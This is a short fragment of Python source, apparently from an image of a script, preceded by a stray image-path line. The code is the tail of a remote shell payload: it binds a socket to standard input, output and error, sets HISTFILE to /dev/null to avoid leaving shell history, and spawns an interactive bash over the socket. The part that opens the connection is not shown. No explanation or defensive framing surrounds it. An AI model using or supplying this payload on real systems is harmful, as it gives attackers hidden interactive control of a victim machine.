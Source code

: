````python
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    os.putenv("HISTFILE",'/dev/null')
    pty.spawn("/bin/bash")
    s.close()
	
if __name__ == "__main__":
    main()
````






